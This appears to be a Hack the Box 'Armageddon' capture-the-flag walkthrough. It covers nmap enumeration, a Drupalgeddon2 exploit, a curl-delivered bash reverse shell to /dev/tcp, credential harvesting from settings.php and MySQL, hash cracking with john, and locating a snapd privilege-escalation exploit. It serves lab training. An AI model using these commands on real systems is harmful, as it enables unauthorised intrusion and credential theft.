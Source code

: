 # Hack the Box - Armageddon

# NMAP
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.233 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.233
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/15%OT=22%CT=1%CU=37173%PV=Y%DS=2%DC=I%G=Y%TM=6461351
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%II=I%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=I%
OS:TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW
OS:7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=7120%
OS:W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53CN
OS:NSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=
OS:Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=
OS:G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.58 seconds
```

```CSS
▶ nmap -sC -sV -p 22,80 10.10.10.233 -oN services.nmap

Nmap scan report for 10.10.10.233
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82c6bbc7026a93bb7ccbdd9c30937934 (RSA)
|   256 3aca9530f312d7ca4505bcc7f116bbfc (ECDSA)
|_  256 7ad4b36879cf628a7d5a61e7060f5f33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```

---

## HTTP
  - Homepage
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cb5ace1e-fa12-4cc5-b837-4107afa14893)

  - Registering as a new user failed as e-mail authentication is broken broken.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4abc8d0c-1e80-479a-b0ca-3d6eaa55f28c)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/56f3bf84-4cfa-42ea-b0de-db89db01746d)

---

## HTTP Response Header
```http
HTTP/1.1 200 OK
Date: Sat, 30 Sep 2023 11:35:57 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Cache-Control: no-cache, must-revalidate
X-Content-Type-Options: nosniff
Content-Language: en
X-Frame-Options: SAMEORIGIN
X-Generator: Drupal 7 (http://drupal.org)
Content-Length: 7440
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
```

---

## Drupal Version
- `changelog.txt`.
```shell
curl -s 10.10.10.233/CHANGELOG.txt | head
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9e732973-d6d1-4287-acdd-47f785645a1f)

---

## Search for Exploit
```shell
root@kali# searchsploit drupal 7.56
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e8217b76-c132-4084-8b46-a44a1c78af1a)
```shell
root@kali# searchsploit -x php/webapps/44449.rb
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0592413d-3aca-457e-bab1-9404dc5c36e3)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf373420-7ea7-4e73-b86c-8bd1884c4b06)
```shell
root@kali# searchsploit -x php/webapps/44449.rb
```

## Initial Foothold
```shell
root@kali# ruby 44449.rb http://10.10.10.233
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a3f60b5-c3ef-4d41-a291-f752776f758b)

Bash Shell
```shell
root@kali# rlwrap nc -nlvvp 443
```
```shell
root@kali# curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.10/443 0>&1" 'http://10.10.10.233/shell.php'
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/868623ca-76ba-4fd4-bde1-6863c301137f)

`/var/www/html/sites/default/settings.php`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b877cd91-e6e5-4406-8100-828b1a80722f)

```shell
Creds: drupaluser:CQHEy@9M*m23gBVj
```

## MySQL
```shell
bash-4.2$ mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
```

```shell
mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5bb2555b-8c25-4a61-83b6-cf15216edb4f)

```shell
Creds: brucetherealadmin:$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

## Crack Hash
```shell
root@kali# hashid '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt'
Analyzing '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt'

root@kali# echo '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' > hash.txt
```

```shell
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f117cef3-9ef1-4107-a71b-7d576b6ffe0c)

## Foothold
```shell
ssh brucetherealadmin@10.10.10.233
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/895a58dc-0c2b-45f1-a0a9-a944be595775)

## Privilege Escalation
```shell
[brucetherealadmin@armageddon ~]$ sudo -l
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/fb12ff2c-5963-46ed-82e4-969d90e91e12)

```shell
[brucetherealadmin@armageddon ~]$ snap --version
snap    2.47.1-1.el7
snapd   2.47.1-1.el7
series  16
centos  7
kernel  3.10.0-1160.6.1.el7.x86_64
```

```
root@kali# searchsploit snap
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2b99630f-ce24-491a-a60e-63bb8e812a90)

```shell
root@kali# searchsploit -m linux/local/46361.py
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/21656604-c4dc-49fa-8482-3898c9aec9c5)


